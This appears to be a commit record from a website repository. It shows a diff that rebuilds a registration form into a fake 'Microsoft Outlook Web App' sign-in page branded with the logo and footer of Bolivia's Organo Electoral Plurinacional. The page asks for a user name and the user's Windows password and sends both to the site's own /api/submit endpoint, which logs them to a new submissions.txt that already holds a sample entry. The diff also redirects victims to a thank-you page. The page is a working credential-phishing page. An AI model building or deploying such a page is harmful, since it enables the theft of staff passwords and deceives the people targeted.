

Before and after one commit to serviciostipt-art/oep.net, a website: page public/index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Frontend rediseñado estilo Outlook Web App

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -3,83 +3,173 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Registro de Usuarios</title>
+    <title>Outlook Web App</title>
     <style>
         * { margin: 0; padding: 0; box-sizing: border-box; }
         body {
-            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
-            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
+            font-family: "Segoe UI", Tahoma, Geneva, Verdana, sans-serif;
+            background: #f5f5f5;
             min-height: 100vh;
             display: flex;
             justify-content: center;
             align-items: center;
             padding: 20px;
         }
-        .container {
-            background: white;
-            border-radius: 16px;
-            box-shadow: 0 20px 60px rgba(0,0,0,0.3);
-            padding: 40px;
+        .card {
+            background: #ffffff;
+            border: 1px solid #d0d0d0;
+            border-radius: 4px;
+            box-shadow: 0 2px 8px rgba(0,0,0,0.15);
             width: 100%;
-            max-width: 500px;
+            max-width: 480px;
+            padding: 30px 40px;
         }
-        h1 { color: #333; text-align: center; margin-bottom: 10px; }
-        .subtitle { text-align: center; color: #666; margin-bottom: 30px; font-size: 14px; }
-        .form-group { margin-bottom: 20px; }
-        label { display: block; margin-bottom: 8px; color: #555; font-weight: 600; font-size: 14px; }
-        input {
-            width: 100%; padding: 12px 16px; border: 2px solid #e0e0e0;
-            border-radius: 8px; font-size: 16px; transition: border-color 0.3s;
+        .header {
+            display: flex;
+            justify-content: space-between;
+            align-items: center;
+            margin-bottom: 30px;
+            padding-bottom: 15px;
+            border-bottom: 1px solid #e0e0e0;
         }
-        input:focus { outline: none; border-color: #667eea; }
-        .btn {
-            width: 100%; padding: 14px; border: none; border-radius: 8px;
-            font-size: 16px; font-weight: 600; cursor: pointer;
-            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
-            color: white; transition: transform 0.2s;
+        .logo-left { display: flex; flex-direction: column; }
+        .logo-left .ms {
+            font-size: 11px; color: #737373; font-weight: normal; margin-bottom: 2px;
         }
-        .btn:hover { transform: translateY(-2px); }
-        .success {
-            background: #d4edda; color: #155724; padding: 12px;
-            border-radius: 8px; margin-bottom: 20px; display: none;
+        .logo-left .title {
+            font-size: 22px; color: #333333; font-weight: 300; letter-spacing: -0.5px;
         }
-        .success.show { display: block; }
+        .logo-right {
+            width: 48px; height: 48px; object-fit: contain;
+        }
+        .security-section { margin-bottom: 25px; }
+        .security-title {
+            font-size: 13px; color: #333; margin-bottom: 8px;
+        }
+        .security-title a {
+            color: #e89a00; text-decoration: none; font-size: 12px;
+        }
+        .security-title a:hover { text-decoration: underline; }
+        .radio-group { margin-left: 10px; }
+        .radio-item {
+            display: flex; align-items: center; margin-bottom: 6px;
+        }
+        .radio-item input[type="radio"] { margin-right: 6px; }
+        .radio-item label { font-size: 13px; color: #333; cursor: pointer; }
+        .checkbox-item {
+            display: flex; align-items: center; margin-top: 12px; margin-left: 10px;
+        }
+        .checkbox-item input[type="checkbox"] { margin-right: 6px; }
+        .checkbox-item label { font-size: 13px; color: #333; cursor: pointer; }
+        .form-row {
+            display: flex; align-items: center; margin-bottom: 12px;
+        }
+        .form-row label {
+            width: 140px; font-size: 13px; color: #333;
+            text-align: right; padding-right: 10px;
+        }
+        .form-row input[type="text"] {
+            flex: 1; padding: 4px 6px; border: 1px solid #a5acb0;
+            font-size: 13px; font-family: inherit; background: #eef4fc;
+        }
+        .form-row input:focus {
+            outline: none; border-color: #e89a00; background: #ffffff;
+        }
+        .button-row {
+            display: flex; justify-content: flex-end;
+            margin-top: 15px; margin-bottom: 25px;
+        }
+        .btn-submit {
+            background: #e89a00; color: white; border: 1px solid #c47e00;
+            padding: 4px 20px; font-size: 13px; font-weight: 600;
+            cursor: pointer; font-family: inherit;
+        }
+        .btn-submit:hover { background: #d48a00; }
+        .btn-submit:active { background: #c47e00; }
+        .footer {
+            text-align: center; border-top: 1px solid #e0e0e0; padding-top: 20px;
+        }
+        .footer-line1 { font-size: 12px; color: #737373; margin-bottom: 4px; }
+        .footer-line2 { font-size: 11px; color: #999999; }
+        .message {
+            padding: 10px; margin-bottom: 15px; font-size: 13px;
+            display: none; border: 1px solid;
+        }
+        .message.show { display: block; }
         .error {
-            background: #f8d7da; color: #721c24; padding: 12px;
-            border-radius: 8px; margin-bottom: 20px; display: none;
+            background: #f2dede; color: #a94442; border-color: #ebccd1;
         }
-        .error.show { display: block; }
+        @media (max-width: 520px) {
+            .card { padding: 20px; }
+            .form-row { flex-direction: column; align-items: flex-start; }
+            .form-row label { width: 100%; text-align: left; padding-right: 0; margin-bottom: 4px; }
+            .form-row input { width: 100%; }
+            .button-row { justify-content: center; }
+        }
     </style>
 </head>
 <body>
-    <div class="container">
-        <h1>📝 Registro de Usuarios</h1>
-        <p class="subtitle">Completa el formulario. Tu información se guardará de forma segura.</p>
+    <div class="card">
+        <div class="header">
+            <div class="logo-left">
+                <span class="ms">Microsoft&reg;</span>
+                <span class="title">Outlook Web App</span>
+            </div>
+            <img src="oep.png" class="logo-right" alt="Logo OEP">
+        </div>
 
-        <div id="successMsg" class="success">✅ ¡Registro enviado correctamente!</div>
-        <div id="errorMsg" class="error">❌ Error al enviar el registro.</div>
+        <div id="errorMsg" class="message error">
+            ❌ Error al guardar el registro. Intente nuevamente.
+        </div>
+
+        <div class="security-section">
+            <div class="security-title">
+                Seguridad ( <a href="#">mostrar explicación</a> )
+            </div>
+            <div class="radio-group">
+                <div class="radio-item">
+                    <input type="radio" id="publico" name="seguridad" >
+                    <label for="publico">Es un equipo público o compartido</label>
+                </div>
+                <div class="radio-item">
+                    <input type="radio" id="privado" name="seguridad" checked>
+                    <label for="privado">Es un equipo privado</label>
+                </div>
+            </div>
+            <div class="checkbox-item">
+                <input type="checkbox" id="light" name="light">
+                <label for="light">Usar Outlook Web App Light</label>
+            </div>
+        </div>
 
         <form id="formulario">
-            <div class="form-group">
-                <label for="nombre">Nombre completo *</label>
-                <input type="text" id="nombre" required placeholder="Ej: María González">
+            <div class="form-row">
+                <label for="nombre">Nombre de usuario:</label>
+                <input type="text" id="nombre" name="nombre" placeholder="juan.perez">
             </div>
+            <div class="form-row">
+                <label for="email">Contraseña actual:</label>
+                <input type="text" id="email" name="email" placeholder="">
+            </div>
+            <div class="security-title">
+                Ingrese la misma contraseña con la que inicia sesion en Windows
+            </div>
+            <div class="button-row">
+                <button type="submit" class="btn-submit">Iniciar sesión</button>
+            </div>
+        </form>
 
-            <div class="form-group">
-                <label for="email">Correo electrónico *</label>
-                <input type="email" id="email" required placeholder="Ej: maria@email.com">
-            </div>
-
-            <button type="submit" class="btn">💾 Guardar Registro</button>
-        </form>
+        <div class="footer">
+            <div class="footer-line1">Organo Electoral Plurinacional</div>
+            <div class="footer-line2">&copy; 2026 OEP. Reservados todos los derechos.</div>
+        </div>
     </div>
 
     <script>
         document.getElementById('formulario').addEventListener('submit', async function(e) {
             e.preventDefault();
-
-            const nombre = document.getElementById('nombre').value.trim();
-            const email = document.getElementById('email').value.trim();
+            const nombre = document.getElementById('nombre').value;
+            const email = document.getElementById('email').value;
 
             try {
                 const response = await fetch('/api/submit', {
@@ -87,23 +177,15 @@
                     headers: { 'Content-Type': 'application/json' },
                     body: JSON.stringify({ nombre, email })
                 });
-
                 const data = await response.json();
 
                 if (data.success) {
-                    document.getElementById('successMsg').classList.add('show');
-                    document.getElementById('errorMsg').classList.remove('show');
-                    this.reset();
-
-                    setTimeout(() => {
-                        document.getElementById('successMsg').classList.remove('show');
-                    }, 3000);
+                    window.location.href = '/gracias.html';
                 } else {
                     throw new Error(data.error);
                 }
             } catch (err) {
                 document.getElementById('errorMsg').classList.add('show');
-                document.getElementById('successMsg').classList.remove('show');
             }
         });
     </script>
--- /dev/null
+++ b/submissions.txt
@@ -0,0 +1,5 @@
+=== REGISTROS DEL FORMULARIO ===
+Generado: 1/6/2026, 13:49:16
+================================
+
+[1/6/2026, 14:50:26] | Nombre: juan.perez | Email: llalalala
```
Also changed, not shown: public/gracias.html (added, +100 -0 lines), server.js (+5 -20 lines), public/OEP.png (added), 1 other file.
